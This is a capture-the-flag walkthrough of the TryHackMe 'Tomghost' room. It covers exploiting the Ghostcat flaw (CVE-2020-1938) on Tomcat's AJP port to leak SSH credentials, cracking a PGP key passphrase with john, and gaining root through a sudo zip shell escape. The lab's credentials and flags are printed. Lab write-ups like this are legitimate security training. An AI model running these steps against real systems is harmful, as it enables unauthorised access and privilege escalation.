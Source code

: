 TOMGHOST

So we start with nmap in order to scan the ports

	nmap -sV 10.10.37.191

the port open that it seems to be interesting is:
	8080 -> dashboard tomcat to configure it
	8009 -> server web 

Googling the name of the machine so "TOMGHOST" it will be appear a CVE, more speficic the CVE-2020-1938 and there is
a on github a specific explanation of this CVE and how to exploit, so we must copy the repo:

	git clone https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat.git

We run the script:

        python3 CVE-2020-1938.py 10.10.37.191 -p 8009

	(N.B the script has two errors in the source code, at line 261 that we should delete the "buffer = 0" and the other one in the final line, we must cast to string "d.data")

from the script we receive some credentials for the SSH:

	skyfuck:8730281lkjlkjdqlksalks 

we connect with pwncat to ssh: (if you haven't run sudo pip3 install pwncat-cs)

	python3 -m pwncat
	connect ssh://skyfuck:8730281lkjlkjdqlksalks@10.10.37.191:22
	
there are two interesting file, the first one credential.pgp(the crypted file) and tryhackme.asc (the key), we must download it from pwncat to our machine with the following command:

	download credential.pgp /home/alessandro/Desktop/tryhackme/tomghost/credentials
	download tryhackme.asc /home/alessandro/Desktop/tryhackme/tomghost/file

now with the gpg we try to decrypt the file but there is a passphrase so we must take the hash from the "file" also called tryhackme.asc

	gpg2john file > file.hash
	john file.hash  --wordlist=/usr/share/wordlists/rockyou.txt --> the passphrase will be "alexandru"

we continue with gpg, we import the key and then we decrypt the credentials:

	gpg --import file
	gpg -d credentials --> merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j

open another shell, connect with pwncat but this time with the merlin's credentials:

	connect ssh://merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j@10.10.37.191:22

there will be the first flag from user.txt:

	THM{GhostCat_1s_so_cr4sy}

now it's time to do priviliege escalation, by running the command "sudo -l", something very helpful appear:

	User merlin may run the following commands on ubuntu:
        (root : root) NOPASSWD: /usr/bin/zip

merlin can execute the binary file /usr/bin/zip so we search on google "sudo zip exploit" and run the following command:

	TF=$(mktemp -u)
	sudo zip $TF /etc/hosts -T -TT 'sh #'
	sudo rm $TF

we're rooot so:

	cd /root
	cat flag.txt --> "THM{Z1P_1S_FAKE}"

Written by: Alessandro Eleuteri and Alessandro Lupini.
	

